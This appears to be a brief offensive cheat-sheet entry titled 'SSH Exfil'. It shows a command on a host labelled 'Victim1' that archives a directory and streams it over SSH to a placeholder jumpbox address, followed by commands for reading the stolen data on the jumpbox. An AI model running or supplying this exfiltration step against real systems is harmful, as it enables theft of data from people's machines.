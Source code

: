 # SSH Exfil

## Commands:

#### 1) Victim1: 

    tar cf - dir/ | ssh USER@JUMPBOX_IP

#### 2) Jumpbox: 

    cd /tmp/dir

    cat data.txt
